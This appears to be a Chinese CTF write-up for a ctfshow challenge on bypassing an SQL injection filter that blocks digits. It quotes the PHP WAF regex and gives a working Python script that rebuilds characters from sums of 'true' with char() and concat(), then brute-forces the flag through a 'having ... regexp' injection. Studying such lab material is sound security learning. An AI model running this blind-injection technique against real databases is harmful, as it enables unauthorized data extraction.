


# 知识点
### sql无数字如何绕过

# 思路
```python
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }

```
通过上图的思路，我们可以通过true相加来构造我们想要的数字，再用char转换为字符，然后用concat将字符连接起来，从而无需数字或者字符就可以进行正则匹配
```python
import requests
str = 'abcdef0123456789-}'
flag = 'ctfshow{'
url = 'http://3e8b75fc-cfeb-4415-a4de-249da68c608f.challenge.ctf.show/select-waf.php'
def str2true(strs):
    str = "concat("
    for s in strs:
        s = "char("+("true+"*ord(s))[:-1]+"),"
        str += s
    return str[:-1]+")"

# print(str2true("00"))
for l in range(38):
    for i in str:
        # print(str2hex(flag+i))
        data = {
            'tableName': f'ctfshow_user group by pass having pass regexp({str2true(flag+i)})'
        }
        rep = requests.post(url=url, data=data).text
        if (rep.find("$user_count = 1") != -1):
            flag += i
            print(flag)
            break
```

